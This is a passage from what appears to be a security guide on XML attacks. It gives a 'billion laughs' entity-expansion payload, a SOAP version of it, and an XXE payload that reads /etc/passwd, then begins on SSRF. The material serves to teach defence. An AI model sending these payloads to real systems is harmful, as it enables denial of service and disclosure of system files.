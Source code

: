 ```
     <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">      <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
     <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">      <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
     <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">     ]>
    <root>&LOL9;</root> 
```
 The entity `LOL9` will be resolved as the 10 entities defined in `LOL8`;
then each of these entities will be resolved in `LOL7` and so on. Finally, the CPU and/or memory will be affected by parsing the
`3 x 10^9` (3,000,000,000) entities defined in this schema, which could make the parser crash.
 **The Simple Object Access Protocol
([SOAP](https://en.wikipedia.org/wiki/SOAP)) specification forbids [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp)s completely. This
means that a SOAP processor can reject any SOAP message that contains a [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp). Despite this
specification, certain SOAP implementations did parse [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) schemas within
SOAP messages.** 
The following example illustrates a case where the parser is not following the specification, enabling a reference to a
[DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) in a SOAP message:
 
```
    <?XML VERSION="1.0" ENCODING="UTF-8"?>     <!DOCTYPE SOAP-ENV:ENVELOPE [
     <!ELEMENT SOAP-ENV:ENVELOPE ANY>      <!ATTLIST SOAP-ENV:ENVELOPE ENTITYREFERENCE CDATA #IMPLIED>
     <!ENTITY LOL "LOL">      <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
     <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">      <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
     <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">      <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
     <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">      <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
     <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">      <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
    ]>     <SOAP:ENVELOPE ENTITYREFERENCE="&LOL9;"
                   XMLNS:SOAP="HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/">      <SOAP:BODY>
      <KEYWORD XMLNS="URN:PARASOFT:WS:STORE">FOO</KEYWORD>      </SOAP:BODY>
    </SOAP:ENVELOPE> 
```
 #### Reflected File Retrieval
 Consider the following example code of an XXE:
 
```
    <?xml version="1.0" encoding="ISO-8859-1"?>     <!DOCTYPE root [
     <!ELEMENT includeme ANY>      <!ENTITY xxe SYSTEM "/etc/passwd">
    ]>     <root>&xxe;</root>
```
 
**The previous XML defines an entity named `xxe`, which is in fact the contents of `/etc/passwd`, which will be expanded within the `includeme`
tag. If the parser allows references to external entities, it might include the contents of that file in the XML response or in the error
output.** 
#### Server Side Request Forgery 
**Server Side Request Forgery (SSRF) happens when the server receives a malicious XML schema, which makes the server retrieve remote resources
such as a file via HTTP/HTTPS/FTP, etc.** SSRF has been used to retrieve remote files, to prove a XXE when you cannot reflect back the file or
perform port scanning, or perform brute force attacks on internal networks.
 ##### External DNS Resolution
 **Sometimes it is possible to induce the application to perform